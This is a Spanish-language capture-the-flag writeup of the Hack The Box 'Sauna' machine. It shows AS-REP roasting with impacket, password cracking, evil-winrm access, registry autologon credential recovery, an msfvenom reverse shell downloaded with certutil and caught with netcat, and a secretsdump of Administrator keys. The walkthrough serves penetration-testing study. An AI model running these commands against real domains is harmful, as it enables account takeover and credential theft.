

# Sauna



bueno esta plataforma tiene una dificultad media para

## Sinopsis:

La maquina Sauna es una pagina que contiene la informacion de un banco.En lo q respecta a pentesting web en la intruccion, tiene un nivel facil dado que en una de sus rutas deja a la vista a posibles nombres de usuario que forman parte del comite ejecutivo del banco. Se complica un poco la parte de la escalada de privilegios al tener q usar tecnologia de kerberos y base de datos para obtener el usuario Administrator del sistema.

## Habilidades aprendidas:

<ul>
  <li>Enumeración de puertos con Nmap</li>
  <li>Cupp creacion de diccionarios (usuarios/contrasñeas)</li>
  <li>Hash</li>
  <li>Evil-winrm</li>
  <li>Kerberos</li>
  <li>Base de datos neo4j</li>
  <li>Bloodhound</li>
  <li>Escalacion de privilegios en windows con Power Shell</li>
</ul>

```bash
🧉
ping 10.10.10.175
PING 10.10.10.175 (10.10.10.175) 56(124) bytes of data.
64 bytes from 10.10.10.175: icmp_seq=1 ttl=127 time=291 ms

--- 10.10.10.175 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 291.280/291.280/291.280/0.000 ms

```

https://subinsb.com/default-device-ttl-values/

```bash
🧉
nmap -sS --min-rate 5000 -T5 -n -Pn -p- 10.10.10.175 -on allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-09 00:01 EDT
Failed to resolve "allPorts".
Failed to resolve "allPorts".
Warning: 10.10.10.175 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.175
Host is up (0.21s latency).
Not shown: 65515 filtered ports
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49676/tcp open  unknown
49686/tcp open  unknown
52439/tcp open  unknown

```

con este escanero simple de puertos al ver los servicios de puertos abiertos me llamaron la atencion los puertos 88, 389

```bash
🧉
nmap -sC -sV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49676,49686,52439 10.10.10.175 -oN services

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-06-09 11:36:32Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  msrpc         Microsoft Windows RPC
52439/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h01m58s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2021-06-09T11:37:27
|_  start_date: N/A

```

## Analizando la pagina web

en la ruta /about me encuentro con unos posibles fotos y nombres que formarian parte del comite directivo del banco

me interesa el que tiene apellido Smith por el de la matriz vitehhh ! 🧙‍♂️

entonces pense en utilizar la tools cupp que viene por defecto en el kali linux nos ayuda a crear diccionarios de usuarios y posibles passwords

para realizar un ataque ASREPRoast. Para lo que no conocemos tanto del tema y en eso me incluyo google y llegue a un blog de Ataque de Kerberos

## Ataque de Kerberos

link del blog

https://www.tarlogic.com/en/blog/how-to-attack-kerberos/

### Que es Kerberos ?

[https://www.tarlogic.com/blog/como-funciona-kerberos/](https://www.tarlogic.com/blog/como-funciona-kerberos/ "https://www.tarlogic.com/blog/como-funciona-kerberos/")

<p> En primer lugar, Kerberos es un protocolo de autenticación, pero no de autorización. Esto quiere decir que el protocolo se encarga de identificar a cada usuario, a través de una contraseña solo conocida por este, pero no determina a qué recursos o servicios puede acceder o no dicho usuario.

Kerberos es ampliamente utilizado en Active Directory. En esta plataforma Kerberos da información de los privilegios de cada usuario autenticado, pero queda a cargo de los servicios el verificar que dichos privilegios son suficientes para acceder a sus recursos.</p>

<p>Terminología común de Kerberos</p>

<p>¿Qué significa TGT?</p>
<p>Ticket Granting Ticket (TGT)
Ticket Granting Ticket (TGT) - Un ticket-granting ticket es un ticket de autenticación utilizado para solicitar tickets de servicio al TGS para recursos específicos del dominio.</p>

<p>¿Qué significa SPN?</p>
<p>Service Principal Name (SPN)
Service Principal Name (SPN) - Un nombre principal de servicio es un identificador dado a una instancia de servicio para asociar una instancia de servicio con una cuenta de servicio de dominio. Windows requiere que los servicios tengan una cuenta de servicio de dominio, por lo que un servicio necesita un conjunto de SPN.</p>

<p>¿Qué significa PAC?</p>
<p>Privilege Attribute Certificate (PAC) - The PAC
Certificado de atributos de privilegio (PAC): el PAC contiene toda la información relevante del usuario y se envía junto con el TGT al centro de distribución de claves (KDC) para que lo firme la clave LT de destino y la clave LT del KDC con el fin de validar al usuario.</p>

vamos a ir directo a utilizar un script de impacket , pero para realizar el ataque deberiamos terner el dominio para eso utilizo la herramienta
crackmapexec.

https://www.elladodelmal.com/2020/05/crackmapexec-una-navaja-suiza-para-el.html

```bash
🧉
❯ crackmapexec smb 10.10.10.175
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing SMB protocol database
[*] Initializing WINRM protocol database
[*] Initializing LDAP protocol database
[*] Initializing MSSQL protocol database
[*] Initializing SSH protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.10.10.175    445    SAUNA            [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
```

Ahora procedemos a crearnos con una herramienta un diccionario para identificar a un posible usuario.

```bash
cupp -i

```

la misma nos va generar un diccionario con una lista de usuario la voy a llamar fergus.txt

### Instalando impacket

ahora me hago un git clone del impacket

```bash
🧉
sudo git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
sudo pip3 install -r /opt/impacket/requirements.txt
sudo cd /opt/impacket
sudo python3 ./setup.py install
```

### que es lo que hace el impacket ?

Descripción:
Este script intentará listar y obtener los TGTs de aquellos usuarios que tengan la propiedad
No requerir preautenticación Kerberos' configurada (UF_DONT_REQUIRE_PREAUTH).
Para aquellos usuarios con dicha configuración, se generará una salida de John The Ripper para que puede enviarla para que sea crackeada.

### Utilizando el script GetNPUsers.py

Algunos comandos del script

```bash
🧉

GetNPUsers.py

Impacket v0.9.24.dev1+20210611.72516.1a5ed9dc - Copyright 2021 SecureAuth Corporation

usage: GetNPUsers.py [-h] [-request] [-outputfile OUTPUTFILE] [-format {hashcat,john}] [-usersfile USERSFILE] [-ts] [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-dc-ip ip address] target

```

````bash
🧉
GetNPUsers.py -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/ -usersfile fergus.txt -format john -outputfile hash.sauna

```e

Obtengo el archivo hash.sauna

```bash
🧉
cat hash.sauna
b1806c37c910a810d1233b95befa9f0284af4117992e6b0604ad518275ce0dc72e6c1ad8817f08cfe48a95c3a69b295d1643e9b67c311bd960e772604c6eca591db225d9be1e162901569ea5489350aad7ed54ec8fb6741e7f86a9fed8aab7c4e2d358fbce7595755e727a8e0d4a9946f8ac2a784c64f09df7bf87ca7d39c116280c8644df4c22936d339cba381dc100def60ebf17ef8b481904ab1fa61960e748b4310d72ae91fbfa107f26b4e4b6ce15918d09fff79fd3f95
$krb5asrep$fsmith@EGOTISTICAL-BANK.LOCAL:0b7cc0dacfabb2fcacf9d257fcb15091$6934bf2df007ef2e21f76b7a36886acce9edf61b7be9b1bee7e1e1e20a0fde510758ce427b586f335070e83282cfedd3460c5f201f06520c5c0608773fa6d1c06d46be08aa2b8050c09fc1d1f101f3f13ee5a0092ad0a2fa9c8ee021f007ff523411c63e05b9464f8859f2c8909505a511f056d08be2cf15cd5d124639cee6b03c19195c53311e134ecf106639c32d76b600be5f996dbf4ff32fee22fee272e826c063c7e0182aaded953272d92121bbd489c794f3d2dd7b87e64fb5413444b81479953183188528636f5e0b1b53c83bab15189612e0bf6aa2c4b94368c641a75b0e86d77e95971fa4a46d8de7e2c30d3592dc68ff934670de8f023b01335d6d

````

```bash
🧉
john --wordlist='/usr/share/wordlists/rockyou.txt' hash.sauna
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thestrokes23     ($krb5asrep$fsmith@EGOTISTICAL-BANK.LOCAL)
Thestrokes23     ($krb5asrep$Fsmith@EGOTISTICAL-BANK.LOCAL)
2g 0:00:00:44 DONE (2021-06-13 03:48) 0.04467g/s 235403p/s 470806c/s 470806C/s Thing..Thehunter22
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

### Obteniendo Acceso a la maquina con un usuario no privilegiado

Del hash obtenemos la contraseña del usuario fsmith la cual es "Thestrokes23". Por lo tanto nos vamos a utilizar la herramienta evil-winrm para conectarnos con el usuario y la contraseña

```bash
🧉
evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\FSmith\Documents> type C:\Users\FSmith\Desktop\user.txt
1b5520b98d97cf17f24122a55baf70cf

```

Bien ya obtuvimos la primera flag pero esto aun no termina queremos ir por mucho mas, que es obtener privilegios de super usuario de la maquina del usuario root 🕵️‍♂️.

## Escala de Privilegios en Windows

<p>La escalada de privilegios podemos hacerla de muchas formas voy a dejar un link el cual tiene comandos de Power Shell para escalar privilegios en windows. Tambien recomiendo subir el winpeas a la maquina victima , Winpeas en una tools que corre un scrip la cual indentifica vulnerabilidades en windows.</p>

Voy a dejar unos links que por medios de comandos podremos realizar escala de privilegios windows

www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

```bash
🧉
-WinRM* PS C:\Users\FSmith\Documents> Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"

DefaultDomainName DefaultUserName                 DefaultPassword
----------------- ---------------                 ---------------
EGOTISTICALBANK   EGOTISTICALBANK\svc_loanmanager Moneymakestheworldgoround!
```

usuario: svc_loanmanager
usuario: svc_loanmgr
usuario: Moneymakestheworldgoround!

### Movimiento lateral

para trabajar mas como desde el cmd de windows , genero una reversa maliciosa para subirlo despues a mi maquina de atacante

### que es msfvenom ?

<p>Msfvenom es una herramienta muy útil para generar rápidamente [shellcodes](https://es.wikipedia.org/wiki/Shellcode) utilizando diferentes cargas útiles disponibles en el framework. Estos shellcodes se pueden implementar en el código de explotación para proporcionar una conexión posterior con el atacante una vez que se ha explotado la vulnerabilidad.

Para generar un shellcode para Windows, escribe el siguiente comando en tu terminal:</p>

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.18 LPORT=443 -f exe > shell.exe
```

Genero un servidor en python3

```bash
python3 -m http.server 80
```

subo el archivo a la maquina victima

```
🧉
certutil.exe -urlcache -split -f http://${IP}/${PORT}/shell.exe shell.exe
```

Finalizo la subida de la shell.exe , me pongo a la escucha desde mi maquina de atacante por el puerto 443

```bash
rlwrap nc -lvnp 443
```

Como parte de la enumeración subimos y corremos winpeas y este nos encuentras unas credenciales de autologon del usuario “svc_loanmgr”.

Comandos para la transferencias de archivo de tu maquina de atacante 👽 hacia la maquina victima 🐣

desde la maquina de atacante creamos un servidor en python

procedemos a descargar el winpeas

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe

click secundario en Download -> Copy Link Location

```
wget  https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/winPEAS/winPEASexe/binaries/Obfuscated%20Releases/winPEASx64.exe
```

```
🧉
python3 -m http.server 80
o
python -m SimpleHTTPServer 80
```

```bash
🧉
certutil.exe -urlcache -split -f http://${IP}/${PORT}/winpeas.exe winpeas.exe

```

```
  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!
```

### Herramientas para utilizar en Active Directory

Pasamos hacer uso de esta herramienta tenemos que instalar las siguientes herramientas

```bash
sudo apt-get install neo4j bloodhound -y
```

### Que es neo4j?

Es una base de datos no relacional

```bash
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175
```

```
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:987e26bb845e57df4c7301753f6cb53fcf993e1af692d08fd07de74f041bf031
Administrator:aes128-cts-hmac-sha1-96:145e4d0e4a6600b7ec0ece74997651d0
Administrator:des-cbc-md5:19d5f15d689b1ce5
```

svc_loanmanager
svc_loanmgr
Moneymakestheworldgoround!
